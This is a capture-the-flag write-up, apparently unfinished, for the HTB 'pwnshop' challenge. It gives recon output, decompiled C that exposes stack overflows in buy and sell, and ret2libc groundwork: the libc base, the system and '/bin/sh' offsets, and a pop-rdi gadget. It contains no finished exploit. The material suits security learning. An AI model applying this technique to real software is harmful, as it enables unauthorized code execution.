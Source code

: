 # pwnshop

## Recon

```bash
file pwnshop    
pwnshop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e354418962cffebad74fa44061f8c58d92c0e706, for GNU/Linux 3.2.0, stripped
```

file securities

```bash
$ pwn checksec pwnshop    
[*] 'pwnshop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```bash
$ readelf -l -W pwnshop | grep "GNU_STACK"
  GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10

```

## Identifying main

Entry point => 0x555555555120
main => 0x5555555550a0

## main

```c

undefined  [16] main(void)

{
  undefined auVar1 [16];
  int input;
  ulong in_RCX;
  char choice;
  
  init_alarms();
  puts("========= HTB PwnShop ===========");
  while( true ) {
    while( true ) {
      puts("What do you wanna do?");
      printf("1> Buy\n2> Sell\n3> Exit\n> ");
      input = getchar();
      getchar();
      choice = (char)input;
      if (choice != '2') break;
      sell();
    }
    if (choice == '3') break;
    if (choice == '1') {
      buy();
    }
    else {
      puts("Please try again.");
    }
  }
  auVar1._8_8_ = 0;
  auVar1._0_8_ = in_RCX;
  return auVar1 << 0x40;
}


```

## buy

- overflow_me is allocated 72 bytes but allows 80 bytes to be written

```c
void buy(void) {
  undefined overflow_me [72];
  
  puts("Sorry, we aren\'t selling right now.");
  printf("But you can place a request. \nEnter details: ");
  read(0,overflow_me,80);
  return;
}
```

## sell

- target1 is allocated 8 bytes but allows for 31 byte input
- target2 is allocated 32 bytes but allows for 64 byte input
- there is a stack leak for `sell_price`. Might be able to dereference if leak other things
- leaking would allow us to know the offset from `libc`???

```c

void sell(void)

{
  int iVar1;
  long i;
  undefined4 *puVar2;
  byte bVar3;
  undefined4 target1 [8];
  undefined8 sell_price;
  undefined4 *target2;
  
  bVar3 = 0;
  target2 = &DAT_001040c0;
  printf("What do you wish to sell? ");
  sell_price = 0;
  puVar2 = target1;
  for (i = 8; i != 0; i = i + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + (ulong)bVar3 * -2 + 1;
  }
  read(0,target1,31);
  printf("How much do you want for it? ");
  read(0,&sell_price,8);
  iVar1 = strcmp((char *)&sell_price,"13.37\n");
  if (iVar1 == 0) {
    puts("Sounds good. Leave details here so I can ask my guy to take a look.");
    puVar2 = target2;
    for (i = 16; i != 0; i = i + -1) {
      *puVar2 = 0;
      puVar2 = puVar2 + (ulong)bVar3 * -2 + 1;
    }
    read(0,target2,64);
  }
  else {
    printf("What? %s? The best I can do is 13.37$\n",(char *)&sell_price);
  }
  return;
}


```

## Gadgets

- dumping gadgets
```bash
$ ROPgadget --binary pwnshop > gadgets.txt
```

- no syscall
```bash
cat gadgets | grep "syscall"
```

## ret2libc

- libc address
- base address is `0x00007ffff7dc2000`

```bash
$ ldd pwnshop
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc2000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
```

- getting address to system

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
  1513: 000000000004dab0    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5

```

- getting address of /bin/sh

```bash
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 197e34 /bin/sh
```

- getting rop gadget for `pop rdi`

```bash
$ cat gadgets.txt | grep "pop rdi"
0x00000000000013c3 : pop rdi ; ret
```